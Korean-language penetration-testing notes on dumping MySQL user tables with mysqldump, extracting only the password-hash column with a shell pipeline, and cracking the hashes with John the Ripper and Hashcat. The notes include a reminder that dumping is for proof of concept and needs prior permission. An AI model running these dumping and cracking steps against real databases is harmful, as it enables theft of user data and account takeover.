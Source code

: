 
# MySQL DB 덤핑, 해시 크래킹

## 덤핑 개념
- **MySQL 덤핑**은 데이터베이스의 데이터를 백업하거나 외부로 추출하기 위해 사용하는 방식입니다.
- `mysqldump` 명령어를 사용하면 데이터베이스의 구조와 데이터를 SQL 형식으로 내보낼 수 있습니다.
- 침해 사례에서는 공격자가 DB 접근 권한을 얻은 후 중요한 데이터를 빼돌리는 데 사용됩니다.

## 주의사항
- DB 덤핑 및 추출은 항상 개념 증명용
  - 완전 덤핑 시 사전 허락 필수

## 추가 정보
- MySQL 사용하는 다른 네트워크 서비스 설정 파일 속 계정 정보

## DB 덤핑 (Dumping)

`mysqldump -u root -p'<비밀번호>' -P <포트> -h <ip> <db> <table>`
`mysqldump -u root -p'<비밀번호>' -P <포트> -h <ip> production users > users.sql.dump`
- production DB명의 users 테이블을 users.sql.dump 파일에 저장
`mysqldump -u root -p'<비밀번호>' -P <포트> -h <ip> <db> <table> --where="username LIKE '%admin%'"`
- production DB명의 users 테이블의 username 컬럼의 admin 이 포함된 데이터를 추출

```
cat users.sql.dump | grep -i 'INSERT INTO `users`' -A 26 | tr -d "'" | cut -d ',' -f 3 | tr -d ')' | tr -d ';' > mysql.hash
```
- 추출된 정보는 `cat`으로 확인 가능하며 비밀번호(HASH)값만 mysql.hash 해시 파일으로 저장


## 해시 크래킹 

### John the Ripper
- `john --wordlist=<사전파일> <해시파일>`
- **예시
  - `john --wordlist=/usr/share/wordlists/rockyou.txt mysql.hash`
  - `john --wordlist=/usr/share/wordlists/rockyou.txt mysql.hash --format=Raw-MD5 --pot=john.output`
   - `cat john.output`

### Hashcat
- `hashcat -m <모드> -a 0 <해시파일> <사전파일>`
